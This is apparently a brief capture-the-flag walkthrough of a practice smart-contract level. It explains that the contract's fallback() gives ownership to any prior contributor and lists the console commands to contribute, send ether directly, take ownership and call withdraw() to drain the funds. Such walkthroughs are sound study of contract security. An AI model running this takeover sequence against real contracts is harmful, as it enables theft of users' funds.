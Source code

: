 -The fallback() function contained the lined

`if (contributions[msg.sender] > 0) {
    owner = msg.sender;
}
`

-Understood that if we send ether directly to the contract and we alreadty have a contribution, we can become the owner
`
await contract.contribute.sendTransaction({ from: player, value: 1 });
`

-Once we have become the owner, call the withdraw() function and take out all the funds

`
await contract.sendTransaction({ from: player, value: 1 });
`

- Verfied the ownership by
  
`
await contract.owner();
`

- After ownership verification, we can withdraw

`
await contract.withdraw();
`
-Completed the level by submitting the instance
